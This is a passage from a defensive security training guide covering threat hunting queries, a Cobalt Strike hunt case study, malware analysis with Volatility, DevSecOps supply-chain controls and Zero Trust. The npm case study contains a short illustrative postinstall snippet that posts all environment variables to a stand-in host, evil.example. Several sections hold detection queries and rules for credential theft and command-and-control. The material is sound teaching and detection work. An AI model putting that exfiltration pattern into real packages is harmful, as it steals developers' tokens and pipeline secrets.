index=wineventlog EventCode=4769 Ticket_Encryption_Type=0x17
Service_Name!="*krbtgt*"
| stats dc(Service_Name) as unique_spns count by Account_Name, Computer
| where unique_spns > 10 OR count > 20
| sort - count
```

### Hunt 4: DNS Tunneling Indicators (Elastic)

**Hypothesis:** Exfiltration via high-entropy DNS subdomains

```
FROM logs-*
| WHERE event.dataset == "dns.logs"
| STATS subdomain_count = COUNT(*) BY dns.question.name, source.ip
| WHERE subdomain_count > 500
| EVAL subdomain_len = LENGTH(dns.question.name)
| WHERE subdomain_len > 50
| SORT subdomain_count DESC
| LIMIT 100
```

### Hunt 5: Cobalt Strike Beacon Periodic Callback (Splunk)

**Hypothesis:** Regular HTTP beacon interval (jitter-adjusted periodicity)

```spl
index=proxy dest_port=443
| transaction src_ip dest_ip maxspan=24h
| eval interval=(_time - lag(_time))
| stats stdev(interval) as jitter avg(interval) as avg_int count by src_ip dest_ip
| where count > 50 AND jitter < 30 AND avg_int > 30 AND avg_int < 300
| sort - count
```

> **Never Forget:** Every hunt query needs a **baseline**. Know what normal looks like for your environment before declaring anomalies malicious.

---

## 15.7 Threat Intelligence Feeds

| Feed Type | Examples | Best Use |
|-----------|----------|----------|
| Open source | Abuse.ch, AlienVault OTX, URLhaus | Broad coverage; tune heavily |
| Commercial | Recorded Future, Mandiant, CrowdStrike | Sector-specific reports |
| ISAC/ISAO | FS-ISAC, Health-ISAC | Industry sharing |
| Internal | Past IR cases, purple team results | Highest fidelity for your org |

### Feed Integration Architecture

```mermaid
%%{init: {'theme': 'base', 'themeVariables': {'primaryColor': '#D2691E', 'primaryTextColor': '#ffffff', 'primaryBorderColor': '#5D2E0C'}}}%%
flowchart TB
    FEEDS[Intel Feeds] --> TAXII[TAXII Server]
    TAXII --> MISP[MISP Platform]
    MISP --> SOAR[SOAR Enrichment]
    MISP --> SIEM[SIEM IOC Match]
    SIEM --> BLOCK[Firewall/Proxy Block]
    SOAR --> TICKET[Auto-ticket low confidence]
```

### Feed Quality Metrics

| Metric | Target |
|--------|--------|
| False positive rate | < 5% for auto-block |
| Time to expire stale IOCs | < 30 days for IPs |
| Match rate in environment | Track hits per 1M events |
| Mean time to ingest | < 15 minutes for critical feeds |

---

## 15.8 Case Study: Cobalt Strike Beacon Hunting

### Background

Finance sector organization received ISAC bulletin about Cobalt Strike campaigns using HTTPS on non-standard ports. Hunt team chartered 72-hour proactive sweep.

### Phase 1: Intel Ingestion

| Source | Data Received |
|--------|---------------|
| ISAC STIX bundle | 47 IP indicators, 12 JA3 hashes |
| Internal purple team | Sample beacon config from last exercise |
| OSINT | Public CS YARA rules updated |

### Phase 2: Hunting Actions

| Day | Action | Result |
|-----|--------|--------|
| 1 | Deploy JA3/JA3S matching on proxy | 3 hits — 2 legacy apps, 1 unknown |
| 1 | Run Hunt Query 5 (beacon periodicity) | 1 src_ip with 847 connections, 60s avg |
| 2 | Isolate host WORKSTATION-882 | EDR confirms unknown DLL injection |
| 2 | Memory dump + YARA scan | Cobalt Strike beacon confirmed |
| 3 | Scope across subnet | 2 additional hosts with same C2 profile |

### Phase 3: Attack Timeline

```mermaid
%%{init: {'theme': 'base', 'themeVariables': {'primaryColor': '#D2691E', 'primaryTextColor': '#ffffff', 'primaryBorderColor': '#5D2E0C'}}}%%
flowchart TD
    A[User opens ISO attachment] --> B[Mount virtual drive]
    B --> C[LNK executes mshta]
    C --> D[PowerShell download cradle]
    D --> E[Reflective DLL load]
    E --> F[HTTPS beacon to 443]
    F --> G[Lateral movement attempt blocked]
```

### Detection Gaps Identified

| Gap | Remediation |
|-----|-------------|
| No proxy TLS fingerprinting | Enable JA3 logging |
| ISO mount not logged | Sysmon EID 11 on mount paths |
| Beacon periodicity undetected | Scheduled Hunt Query 5 weekly |
| No STIX auto-ingest | Deploy TAXII connector to MISP |

> **Never Forget:** Purple team **exercises are threat intel** for your own environment. Tag and retain artifacts for future hunt baselines.

---

## 15.9 Threat Hunting Metrics and Program Design

### Hunt Program KPIs

| Metric | Target | Measurement |
|--------|--------|-------------|
| Hunts per quarter | 4-8 | Completed hunt charters |
| True positive rate | > 30% | Findings validated as malicious |
| Mean time to hunt | < 5 days | Charter to completion |
| Detection rules from hunts | 2+ per hunt | Sigma/YARA deployed |
| Coverage of ATT&CK tactics | 80% in 12 months | Tactics with at least one hunt |

### Hunt Data Source Matrix

| Data Source | Volume | Value | Retention Need |
|-------------|--------|-------|----------------|
| Windows Security | High | Auth, Kerberos | 90-365 days |
| Sysmon | High | Process, network | 90-180 days |
| Proxy/FW logs | Very High | C2, exfil | 30-90 days |
| DNS logs | High | Tunneling, DGA | 30-90 days |
| EDR telemetry | Medium | Real-time IOAs | 30-90 days |
| Cloud audit logs | Medium | IAM abuse | 365+ days |

> **Never Forget:** Store logs **longer than your mean time to detect**. If MTTD is 45 days, 30-day retention guarantees blind spots.

### Additional Sigma Rule (Cobalt Strike Named Pipe)

```yaml
title: Cobalt Strike Named Pipe Pattern
status: experimental
logsource:
    product: windows
    category: pipe_created
detection:
    selection:
        PipeName|startswith: '\\MSSE-'
    condition: selection
falsepositives:
    - Unknown
level: high
```

---

## 15.10 Part 15 Lab Exercises

| # | Exercise | Objective |
|---|----------|-----------|
| 1 | Write hunt charter with ATT&CK mapping | Structured hunting |
| 2 | Convert Sigma rule to Splunk and Elastic | Detection portability |
| 3 | Ingest OTX pulse into MISP | Intel pipeline |
| 4 | Run Hunt Query 5 against sample proxy logs | Beacon detection |
| 5 | Document IOC vs TTP for one APT report | Intel analysis |
| 6 | Create YARA rule for lab malware sample | Pattern matching |

---


# Part 16: Malware Analysis & Memory Forensics

Malware analysis answers: **What does it do?** Memory forensics answers: **What was running that left no file?** Both require disciplined workflows and isolated lab environments.

---

## 16.1 Static vs Dynamic Analysis Workflow

```mermaid
%%{init: {'theme': 'base', 'themeVariables': {'primaryColor': '#D2691E', 'primaryTextColor': '#ffffff', 'primaryBorderColor': '#5D2E0C'}}}%%
flowchart TB
    S[Sample Received] --> H[Hash lookup]
    H -->|Known| R[Report from VT/intel]
    H -->|Unknown| ST[Static Analysis]
    ST --> D[Dynamic Analysis Sandbox]
    D --> M[Memory Forensics]
    M --> RPT[Final Report]
```

| Phase | Tools | Risk | Answers |
|-------|-------|------|---------|
| **Static** | strings, PEStudio, diec | Low (no execution) | Imports, sections, strings, packer |
| **Dynamic** | Any.run, Cuckoo, VM snapshot | Medium (controlled execution) | Behavior, network, persistence |
| **Memory** | Volatility, Rekall | Low (offline dump) | Hidden processes, injections, keys |

> **Never Forget:** Never run unknown malware on your **host OS**. Always use an isolated VM with snapshot revert and host-only or no network until controlled.

### Analysis Decision Matrix

| Sample Characteristic | Start With |
|----------------------|------------|
| Packed/obfuscated | Static + unpack attempt in sandbox |
| Document with macros | Dynamic in sandbox; disable internet first pass |
| Suspected rootkit | Memory dump before reboot |
| Mobile APK | jadx + MobSF |

---

## 16.2 PE File Basics

| PE Section | Typical Contents | Analyst Notes |
|------------|------------------|---------------|
| `.text` | Executable code | Entropy > 7.0 may indicate packing |
| `.data` | Initialized data | May hold C2 strings |
| `.rdata` | Read-only data | Import strings, constants |
| `.rsrc` | Resources | Icons, dialogs, embedded payloads |
| `.reloc` | Relocations | Absent in packed malware sometimes |

### PE Header Fields

| Field | Location | Significance |
|-------|----------|--------------|
| DOS Header `MZ` | Offset 0 | PE file magic |
| PE Signature | e_lfanew pointer | Validates PE structure |
| Optional Header | Machine, Subsystem | x86 vs x64, GUI vs CUI |
| Data Directories | Import, Export, TLS | API hooking, reflective loading |

**Example read with pefile (Python):**

```python
import pefile
pe = pefile.PE("suspicious.exe")
print(f"Entry point: 0x{pe.OPTIONAL_HEADER.AddressOfEntryPoint:x}")
for entry in pe.DIRECTORY_ENTRY_IMPORT:
    print(entry.dll.decode())
```

---

## 16.3 Strings, Hashes, and Reputation

### Hash Types

| Hash | Use |
|------|-----|
| MD5 | Legacy IOC sharing (avoid for security) |
| SHA1 | Legacy file identification |
| SHA256 | Primary file fingerprint today |
| ssdeep | Fuzzy hashing for similar samples |
| imphash | Import table hash for family clustering |

### strings Command Workflow

```bash
strings -a -n 8 suspicious.exe | grep -iE 'http|cmd|powershell|password'
strings -el suspicious.exe   # Unicode strings on Windows binaries
```

| String Pattern | Possible Meaning |
|----------------|------------------|
| `http://` / `https://` | C2 or download URL |
| `cmd.exe` / `powershell` | Execution invocation |
| `SOFTWARE\Microsoft\Windows\CurrentVersion\Run` | Persistence |
| `VirtualBox` / `VMware` | Anti-VM check |

> **Never Forget:** A clean VirusTotal result is **not** a clean bill of health. Zero detections can mean novel or targeted malware.

---

## 16.4 Sandboxing and Dynamic Analysis

### Sandbox Checklist

| Control | Purpose |
|---------|---------|
| Snapshot before run | One-click revert |
| Host-only network | Capture C2 without harm |
| Simulated internet (INetSim) | Fake DNS/HTTP responses |
| Multiple OS images | Cross-version behavior |
| Time acceleration | Trigger time-bomb logic |

### Behavioral Indicators

| Behavior | ATT&CK | Severity |
|----------|--------|----------|
| Creates Run key | T1547.001 | Medium |
| Injects into explorer.exe | T1055 | High |
| Deletes shadow copies | T1490 | Critical (ransomware) |
| Enumerates domain controllers | T1018 | High (enterprise threat) |
| Beacon every 60 seconds | T1071 | High |

---

## 16.5 Volatility Framework

### Essential Plugins

| Plugin | Purpose | Example Output |
|--------|---------|----------------|
| `pslist` | List processes from EPROCESS | Hidden process detection vs pstree |
| `netscan` | Network connections and listeners | C2 IP:port on suspicious PID |
| `malfind` | Find injected code (RWX pages) | Shellcode in legitimate process |
| `pstree` | Process parent-child tree | Anomaly: winword → powershell |
| `cmdline` | Process command lines | Encoded PowerShell args |
| `hashdump` | Extract cached credentials | Offline crack (lab/legal only) |
| `dlllist` | Loaded DLLs per process | Unmapped DLL = injection |

### Volatility 3 Example Commands

```bash
# LAB — analyze memory dump from isolated investigation VM
vol -f memory.dmp windows.pslist
vol -f memory.dmp windows.netscan | grep ESTABLISHED
vol -f memory.dmp windows.malfind | head -50
vol -f memory.dmp windows.pstree
vol -f memory.dmp windows.cmdline
```

### pslist vs pstree Analysis

| Observation | Interpretation |
|-------------|----------------|
| Process in pslist but not in pstree | Possible DKOM rootkit (rare) or plugin mismatch |
| malfind hits on svchost.exe | Likely injection — validate with dlllist |
| netscan shows port 4444 outbound | Classic Metasploit/C2 — correlate PID |

> **Never Forget:** Capture memory **before** powering off a suspect machine. Reboot destroys ephemeral evidence including injected code and encryption keys.

---

## 16.6 Safe Lab Isolation

### Lab Network Architecture

```mermaid
%%{init: {'theme': 'base', 'themeVariables': {'primaryColor': '#D2691E', 'primaryTextColor': '#ffffff', 'primaryBorderColor': '#5D2E0C'}}}%%
flowchart TB
    HOST[Analyst Host] --> HV[Hypervisor]
    HV --> VM1[Analysis VM - Windows]
    HV --> VM2[Analysis VM - Linux]
    HV --> REM[REMnux / INetSim]
    VM1 --> REM
    VM2 --> REM
    REM -.->|NO path| INTERNET[Internet]
```

| Layer | Control |
|-------|---------|
| Network | Isolated VLAN; no route to production |
| Hypervisor | Dedicated analysis host; not daily driver |
| Shared folders | Disabled between host and malware VM |
| USB | Disabled or strictly controlled |
| Snapshots | Mandatory before each sample |

### Legal and Policy Requirements

| Requirement | Detail |
|-------------|--------|
| Authorization | Written scope for org samples |
| Chain of custody | Hash and timestamp on receipt |
| Retention | Secure delete after analysis per policy |
| Export controls | Some malware subject to legal restrictions |

---

## 16.7 Case Study: Suspicious Binary Educational Workflow

### Scenario

Helpdesk submits `invoice_patch.exe` from a phishing email. User did not run it. SOC requests full analysis.

### Step 1: Triage (5 minutes)

| Check | Result |
|-------|--------|
| SHA256 | `a3f5...` (unknown to VT — 0/72 at submission) |
| File size | 847 KB |
| Magic bytes | `MZ` — Windows PE |
| First strings | `URLDownloadToFile`, `CryptEncrypt`, `bitcoin` |

### Step 2: Static Analysis (20 minutes)

| Finding | Detail |
|---------|--------|
| Packer | UPX detected — unpacked in lab |
| Imports | `wininet.dll`, `advapi32.dll`, `crypt32.dll` |
| Section entropy | .text entropy 7.4 — possibly encrypted payload |
| Resource | Embedded `.bin` in .rsrc |

### Step 3: Dynamic Analysis (30 minutes)

| Timestamp | Behavior |
|-----------|----------|
| T+0s | Creates `%AppData%\svchost.exe` copy |
| T+2s | Adds Run key `WindowsUpdateCheck` |
| T+5s | DNS query to `update-cdn-4421.biz` |
| T+8s | HTTPS POST 443 — beacon established |
| T+45s | Attempts to enumerate `net view /domain` |

### Step 4: Memory Forensics

```bash
vol -f snapshot.dmp windows.pslist | grep -i svchost
vol -f snapshot.dmp windows.malfind --pid 4428
vol -f snapshot.dmp windows.netscan | grep 443
```

| Artifact | Finding |
|----------|---------|
| malfind | RWX region in PID 4428 (fake svchost) |
| netscan | ESTABLISHED to 203.0.113.44:443 |
| cmdline | `-enc JABjAGwA...` (Base64 PowerShell) |

### Step 5: Report Summary

| Field | Value |
|-------|-------|
| Classification | Trojan downloader with C2 beacon |
| ATT&CK | T1204.002, T1547.001, T1071.001 |
| IOCs | Domain, IP, SHA256, mutex `Global\Wx7K2` |
| Recommendation | Block IOCs; hunt for Run key name; user awareness |

> **Never Forget:** Malware analysis reports must include **actionable IOCs and ATT&CK mapping** — not just 'malicious' labels.

---

## 16.8 Advanced Volatility and Static Techniques

### Additional Volatility Plugins

| Plugin | Use Case |
|--------|----------|
| `filescan` | Find files in memory not on disk |
| `handles` | Open handles to suspicious processes |
| `svcscan` | Enumerate services for persistence |
| `timeliner` | Build super-timeline from artifacts |
| `hollowfind` | Detect process hollowing |
| `ldrmodules` | Find unlinked DLLs (injection indicator) |

### Import Address Table (IAT) Analysis

| Observation | Likely Meaning |
|-------------|----------------|
| Empty IAT with packed binary | Dynamic API resolution (anti-analysis) |
| Unusual DLL imports (wininet + crypt32) | Downloader or ransomware |
| No imports, high entropy | Shellcode loader |

### YARA for Memory Scanning

```yara
rule Suspicious_RWX_Region {
    meta:
        description = "Flags RWX memory regions in process dumps"
    condition:
        false  // Use with Volatility malfind output enrichment in lab
}
```

> **Never Forget:** Dynamic analysis in sandbox **without network simulation** tells you half the story. Always capture PCAP and memory when safe.

---

## 16.9 Static Analysis Deep Dive: PE Sections and Imports

### Section Entropy Analysis

| Entropy Range | Interpretation |
|---------------|----------------|
| 0.0 - 4.0 | Normal code or data |
| 4.0 - 6.5 | Typical compressed or normal binary |
| 6.5 - 7.5 | Possibly packed or encrypted |
| 7.5 - 8.0 | Almost certainly packed or encrypted |

```bash
# Calculate entropy with Python — lab utility
python3 -c "
import math, sys
from collections import Counter
data = open(sys.argv[1],'rb').read()
c = Counter(data)
entropy = -sum((n/len(data)) * math.log2(n/len(data)) for n in c.values())
print(f'Entropy: {entropy:.2f}')
" suspicious.exe
```

### Common Packer Signatures

| Packer | Indicator |
|--------|-----------|
| UPX | `UPX0`, `UPX1` sections; high entropy |
| Themida | Heavy anti-debug; virtualized code |
| ASPack | Small stub; `.adata` section |
| Custom | No standard section names; entry point anomaly |

### Export and Debug Directories

| Directory | Analyst Value |
|-----------|---------------|
| Export | DLL functionality; C2 staging DLLs |
| Debug | PDB path leaks developer machine path |
| TLS | Thread-local storage callbacks (anti-debug) |
| Load Config | SafeSEH, CFG, ASLR flags |

---

## 16.10 Part 16 Lab Exercises

| # | Exercise | Objective |
|---|----------|-----------|
| 1 | Analyze EICAR with static tools only | Safe baseline workflow |
| 2 | Unpack UPX sample in lab | Packer handling |
| 3 | Run Volatility pslist/netscan/malfind on provided dump | Memory forensics |
| 4 | Write full analysis report template | Professional output |
| 5 | Build isolated analysis VM with REMnux | Lab infrastructure |

---


# Part 17: DevSecOps & Supply Chain Security

Modern breaches increasingly target **the build pipeline** rather than production directly. DevSecOps integrates security into every phase of the software delivery lifecycle (SDLC).

---

## 17.1 Secure SDLC

```mermaid
%%{init: {'theme': 'base', 'themeVariables': {'primaryColor': '#D2691E', 'primaryTextColor': '#ffffff', 'primaryBorderColor': '#5D2E0C'}}}%%
flowchart LR
    R[Requirements] --> D[Design]
    D --> I[Implement]
    I --> T[Test]
    T --> DEP[Deploy]
    DEP --> O[Operate]
    O --> M[Monitor]
    M --> R
    subgraph Security Gates
        T1[Threat Model]
        T2[SAST/SCA]
        T3[DAST]
        T4[Container Scan]
    end
```

| Phase | Security Activity | Gate Criteria |
|-------|-------------------|---------------|
| Requirements | Abuse cases, compliance mapping | Security user stories defined |
| Design | STRIDE threat modeling | Threat model reviewed |
| Implement | Secure coding standards, SAST | No critical SAST findings |
| Test | DAST, fuzzing, pen test | No exploitable vulns |
| Deploy | Signed artifacts, config review | SBOM attached |
| Operate | Runtime protection, logging | Monitoring active |

> **Never Forget:** Shift-left does not mean **shift-all**. Runtime detection and IR remain essential — you cannot test away every production failure mode.

---

## 17.2 SAST, DAST, and SCA

| Type | When | What It Finds | Tools |
|------|------|---------------|-------|
| **SAST** | Source code / build | SQLi patterns, hardcoded secrets, unsafe functions | Semgrep, SonarQube, CodeQL |
| **DAST** | Running application | XSS, auth bypass, misconfigurations | OWASP ZAP, Burp Suite CI |
| **SCA** | Dependencies | Vulnerable libraries, license issues | Dependabot, Snyk, Trivy |

### Tool Comparison

| Tool | Category | Strength |
|------|----------|----------|
| **Semgrep** | SAST | Fast custom rules; CI-friendly |
| **SonarQube** | SAST + quality | Central dashboard; quality gates |
| **Dependabot** | SCA | Native GitHub integration |
| **Snyk** | SCA + container | Developer-friendly remediation |
| **CodeQL** | SAST | Deep semantic analysis |

### Semgrep Example Rule

```yaml
rules:
  - id: hardcoded-aws-key
    patterns:
      - pattern-regex: 'AKIA[0-9A-Z]{16}'
    message: Potential hardcoded AWS access key
    severity: ERROR
    languages: [python, javascript, java]
```

### SonarQube Quality Gate

| Metric | Threshold |
|--------|-----------|
| Critical vulnerabilities | 0 |
| Security hotspots reviewed | 100% |
| Coverage on new code | > 80% |
| Duplicated lines | < 3% |

---

## 17.3 CI/CD Security — GitHub Actions

| Risk | Example | Mitigation |
|------|---------|------------|
| Secret leakage | `echo ${{ secrets.API_KEY }}` in logs | OIDC instead of long-lived secrets |
| Poisoned pipeline | Malicious PR modifies workflow | Branch protection; CODEOWNERS on `.github/` |
| Third-party actions | Compromised `@v1` tag | Pin to commit SHA |
| Over-permissioned token | `permissions: write-all` | Least privilege `permissions` block |

### Secure Workflow Example

```yaml
name: Secure Build
on:
  push:
    branches: [main]
permissions:
  contents: read
  security-events: write
jobs:
  scan:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@11bd71901bbe5b1635ceea73d275ad6322b6b7b8
      - name: Run Semgrep
        uses: returntocorp/semgrep-action@v1
      - name: Dependency scan
        run: snyk test --severity-threshold=high
```

### Secrets Scanning

| Tool | Integration |
|------|-------------|
| GitHub Secret Scanning | Native for supported patterns |
| Gitleaks | Pre-commit and CI |
| TruffleHog | Entropy + regex detection |

> **Never Forget:** Pin GitHub Actions to **full commit SHAs**, not tags. Tags can be moved; SHAs cannot.

### Signed Commits

| Method | Purpose |
|--------|---------|
| GPG signing | Verify author identity |
| SSH signing | Alternative to GPG |
| Sigstore gitsign | Keyless signing via OIDC |

```bash
git config commit.gpgsign true
git config user.signingkey ABCD1234
git commit -S -m "Signed security fix"
```

---

## 17.4 Container Scanning, SBOM, and Sigstore

### Container Scanning

| Scanner | Focus |
|---------|-------|
| Trivy | OS packages, app deps, misconfigs |
| Grype | Vulnerability matching |
| Docker Scout | Docker Hub integration |
| Snyk Container | Dev-centric remediation |

```bash
trivy image --severity HIGH,CRITICAL myapp:1.2.3
trivy fs --scanners vuln,secret,config .
```

### SBOM (Software Bill of Materials)

| Format | Ecosystem |
|--------|-----------|
| SPDX | Enterprise, compliance |
| CycloneDX | Security-focused; OWASP standard |

```bash
syft packages myapp:1.2.3 -o cyclonedx-json > sbom.json
```

### Sigstore and cosign

| Component | Role |
|-----------|------|
| **Fulcio** | Issues short-lived code signing certs |
| **Rekor** | Transparency log for signatures |
| **cosign** | CLI for sign/verify containers and blobs |

```bash
cosign sign myregistry/myapp:1.2.3
cosign verify myregistry/myapp:1.2.3
```

> **Never Forget:** An SBOM without **vulnerability scanning** is inventory theater. Generate SBOMs and feed them to scanners continuously.

---

## 17.5 SLSA Levels

| Level | Requirements |
|-------|--------------|
| **SLSA 1** | Provenance exists (build documented) |
| **SLSA 2** | Signed provenance; hosted build service |
| **SLSA 3** | Hardened build platform; non-falsifiable provenance |
| **SLSA 4** | Two-person review; hermetic reproducible builds |

### SLSA Provenance Fields

| Field | Meaning |
|-------|---------|
| `builder.id` | Who built the artifact |
| `buildType` | Pipeline identifier |
| `materials` | Source commit hashes |
| `metadata.completeness` | Provenance coverage |

---

## 17.6 Case Study: npm/PyPI Supply Chain Attack

### Incident Pattern (Composite Educational Case)

Attackers typosquatted popular packages (`reqeusts` vs `requests`) and compromised maintainer accounts to publish malicious versions.

### Timeline

| Day | Event |
|-----|-------|
| 0 | Attacker publishes `lodash-utils-fork@4.17.22` with postinstall script |
| 1 | 12,000 downloads before detection |
| 2 | Researcher reports credential stealer in `postinstall` |
| 3 | npm unpublishes; downstream CI pipelines still cached malicious version |

### Malicious Payload Behavior

```javascript
// Simplified malicious postinstall pattern — DO NOT USE
const https = require('https');
const env = JSON.stringify(process.env);
https.request({ hostname: 'evil.example', path: '/collect', method: 'POST' }).end(env);
```

### Impact Assessment

| Area | Impact |
|------|--------|
| Developer machines | `.npmrc` tokens exfiltrated |
| CI/CD | Pipeline secrets in environment variables stolen |
| Production | Indirect — stolen cloud keys used for resource abuse |

### Defensive Controls Applied

| Control | Implementation |
|---------|----------------|
| Lock files | `package-lock.json` pinned; Renovate PRs reviewed |
| SCA in CI | Snyk blocks critical on PR |
| Private registry proxy | Artifactory with upstream filtering |
| npm audit signatures | `--ignore-scripts` in CI where possible |
| Secret rotation | All CI secrets rotated within 4 hours |

> **Never Forget:** Supply chain attacks exploit **trust in upstream**. Verify package names, maintainer history, and diff lockfile changes in every PR.

---

## 17.7 DevSecOps Maturity Model

| Level | Characteristics |
|-------|-----------------|
| 1 — Ad hoc | Manual scans; security at end |
| 2 — Repeatable | SAST/SCA in CI on main branch |
| 3 — Defined | Security gates on all PRs; SBOM generated |
| 4 — Managed | Metrics tracked; MTTR for vulns < SLA |
| 5 — Optimizing | Threat modeling automated; continuous red team |

### GitHub Actions Security Checklist

| Item | Status Check |
|------|--------------|
| Branch protection on main | Required reviews, status checks |
| CODEOWNERS for workflows | `.github/` changes need security review |
| OIDC to cloud | No long-lived cloud keys in secrets |
| Actions pinned to SHA | No floating `@v1` tags |
| Fork PR restrictions | `pull_request_target` audited |
| Artifact signing | cosign or Sigstore on release |
| Dependabot enabled | Weekly dependency PRs |

### Container Hardening Reference

| Practice | Command / Config |
|----------|------------------|
| Non-root user | `USER 10001` in Dockerfile |
| Read-only root FS | `readOnlyRootFilesystem: true` |
| Drop capabilities | `cap_drop: [ALL]` |
| No latest tag | Pin digest in production |
| Scan in CI | `trivy image --exit-code 1` |

> **Never Forget:** Developers bypass security controls that **slow merges without clear feedback**. Fast scans with actionable fix suggestions get adopted.

---

## 17.8 Pipeline Threat Modeling Example

### STRIDE on CI/CD Pipeline

| Threat | Component | Mitigation |
|--------|-----------|------------|
| Spoofing | Git commit author | Signed commits; branch protection |
| Tampering | Build artifacts | SLSA provenance; cosign |
| Repudiation | Deploy actions | Immutable audit logs |
| Information Disclosure | Secrets in logs | OIDC; secret scanning |
| Denial of Service | Runner exhaustion | Rate limits; isolated runners |
| Elevation of Privilege | Malicious PR workflow | CODEOWNERS; workflow approval |

### Dependency Confusion Attack Pattern

| Step | Attacker Action | Defender Control |
|------|-----------------|------------------|
| 1 | Identify internal package names | Private registry namespace |
| 2 | Publish same name to public registry | Scope configuration in npm/pip |
| 3 | CI pulls public malicious version | Lock files; verify registry source |
| 4 | Postinstall script executes | `--ignore-scripts` in CI where safe |

```bash
# Verify npm registry source in CI
npm config get registry
npm ci --ignore-scripts  # when scripts not required for build
```

---

## 17.9 Part 17 Lab Exercises

| # | Exercise | Objective |
|---|----------|-----------|
| 1 | Add Semgrep to GitHub Actions | SAST in CI |
| 2 | Generate CycloneDX SBOM for a project | Supply chain visibility |
| 3 | Sign container with cosign | Artifact integrity |
| 4 | Threat model a microservice | Design-phase security |
| 5 | Simulate typosquat detection | Dependency vigilance |

---


# Part 18: Zero Trust Architecture

Zero Trust replaces perimeter-centric security with **never trust, always verify** — every access request is authenticated, authorized, and encrypted regardless of network location.

---

## 18.1 Core Principles

| Principle | Traditional Model | Zero Trust Model |
|-----------|-------------------|------------------|
| Network location | Internal = trusted | No implicit trust by VLAN |
| Authentication | Once at VPN | Continuous validation |
| Access | Broad network access | Least privilege per resource |
| Visibility | Perimeter logging | End-to-end telemetry |
| Assumption | Breach is possible | Breach is inevitable |

```mermaid
%%{init: {'theme': 'base', 'themeVariables': {'primaryColor': '#D2691E', 'primaryTextColor': '#ffffff', 'primaryBorderColor': '#5D2E0C'}}}%%
flowchart TB
    U[User/Device] --> PE[Policy Engine]
    PE --> PA[Policy Administrator]
    PA --> PEP[Policy Enforcement Point]
    PEP --> R[Resource]
    U -->|Identity plus posture| PE
    PE -->|Allow/Deny| PA
```

> **Never Forget:** Zero Trust is **not a product**. It is an architecture combining identity, device posture, microsegmentation, and continuous monitoring.

---

## 18.2 Microsegmentation and ZTNA

| Control | Function | Example |
|---------|----------|---------|
| **Microsegmentation** | Limit east-west traffic | App tier talks only to DB tier on 5432 |
| **ZTNA** (Zero Trust Network Access) | Replace VPN with app-level access | Zscaler, Cloudflare Access, BeyondCorp |
| **Device trust** | Validate patch level, EDR health | Block non-compliant devices |
| **Continuous auth** | Re-evaluate session risk | Step-up MFA on anomaly |

### VPN vs ZTNA Comparison

| Aspect | VPN | ZTNA |
|--------|-----|------|
| Access scope | Entire internal network | Specific applications |
| Lateral movement | High after VPN connect | Limited by app-level policy |
| User experience | Full tunnel latency | Direct to app via edge |
| Inspection | Often limited | Identity-aware per session |
| Remote work scale | Concentrator bottlenecks | Cloud-native scaling |

---

## 18.3 NIST SP 800-207 Mapping

| NIST Pillar | Implementation |
|-------------|----------------|
| **Verify explicitly** | MFA, device certs, conditional access |
| **Use least privilege** | RBAC, just-in-time access, PIM |
| **Assume breach** | Segmentation, logging, deception |

### Logical Components (800-207)

| Component | Role |
|-----------|------|
| Policy Engine (PE) | Makes access decision |
| Policy Administrator (PA) | Configures PEP |
| Policy Enforcement Point (PEP) | Gateway, agent, or proxy enforcing decision |
| Data Access Policy | Rules for resource access |

---

## 18.4 AWS Zero Trust Implementation

| Service | Zero Trust Function |
|---------|---------------------|
| IAM Identity Center | SSO with conditional access |
| AWS Verified Access | ZTNA for corporate apps |
| Security Groups + NACLs | Microsegmentation |
| AWS WAF + Shield | Edge protection |
| CloudTrail + GuardDuty | Continuous monitoring |
| KMS | Encryption key control |

### Example Verified Access Policy Concept

```
Allow access to internal-app.example.com IF:
  - User is in group "Engineering"
  - Device compliance score >= 80
  - MFA completed within last 8 hours
  - Source country in allowlist
```

---

## 18.5 Azure Zero Trust Implementation

| Service | Function |
|---------|----------|
| Entra ID (Azure AD) | Identity plane |
| Conditional Access | Policy engine for auth |
| Defender for Cloud | Posture management |
| Private Link | Private connectivity to PaaS |
| Azure Firewall | East-west and egress control |
| PIM | Just-in-time privileged access |

### Conditional Access Policy Example

| Condition | Setting |
|-----------|---------|
| Users | All users except break-glass |
| Cloud apps | Office 365, custom SAML apps |
| Conditions | Any location except trusted office IPs |
| Grant | Require MFA + compliant device |

> **Never Forget:** Break-glass accounts must exist but be **monitored aggressively** — every use triggers immediate investigation.

---

## 18.6 Case Study: VPN to ZTNA Migration

### Organization Profile

- 8,000 employees, hybrid remote
- Legacy IPSec VPN to corporate network
- Recurring incidents: VPN credential theft leading to lateral movement

### Migration Phases

| Phase | Duration | Actions |
|-------|----------|---------|
| 1 — Discovery | 8 weeks | Map all apps accessed via VPN; classify sensitivity |
| 2 — Pilot | 12 weeks | ZTNA for 3 SaaS apps + 2 internal web apps |
| 3 — Parallel run | 16 weeks | VPN and ZTNA coexist; migrate app by app |
| 4 — VPN decommission | 8 weeks | VPN retained only for legacy protocols (RDP jump) |

### Metrics Before and After

| Metric | VPN Era | ZTNA Era |
|--------|---------|----------|
| Mean time to grant access | 3 days (firewall ticket) | Minutes (self-service policy) |
| Lateral movement incidents | 4 per year | 0 in 18 months post-migration |
| Failed auth attempts visible | VPN concentrator only | Per-app with identity context |
| User satisfaction (IT survey) | 62% | 84% |

### Architecture After Migration

```mermaid
%%{init: {'theme': 'base', 'themeVariables': {'primaryColor': '#D2691E', 'primaryTextColor': '#ffffff', 'primaryBorderColor': '#5D2E0C'}}}%%
flowchart LR
    USER[Remote User] --> IDP[Entra ID MFA]
    IDP --> ZTNA[ZTNA Broker]
    ZTNA --> APP1[SaaS App]
    ZTNA --> APP2[Internal Web App]
    ZTNA --> APP3[SSH Bastion]
    APP2 --> DB[(Database)]
    ZTNA -.->|No flat network| DB
```

### Lessons Learned

| Challenge | Resolution |
|-----------|------------|
| Legacy apps needing flat network | App proxy with protocol translation |
| Printer/scanner IoT on VPN | Dedicated IoT VLAN with no ZTNA path |
| Developer SSH to servers | Certificate-based access via ZTNA SSH broker |
| Executive resistance | Early pilot with leadership cohort |

> **Never Forget:** ZTNA migration fails when treated as **VPN replacement only**. Success requires application inventory and identity hygiene first.

---

## 18.7 Zero Trust Implementation Roadmap

### 12-Month Roadmap Template

| Quarter | Milestone | Deliverables |
|---------|-----------|--------------|
| Q1 | Identity foundation | MFA everywhere; device inventory |
| Q2 | Visibility | Log all auth; microsegmentation pilot |
| Q3 | ZTNA pilot | Replace VPN for 30% of apps |
| Q4 | Scale and measure | 80% apps on ZTNA; VPN decommission plan |

### ZTNA Vendor Evaluation Criteria

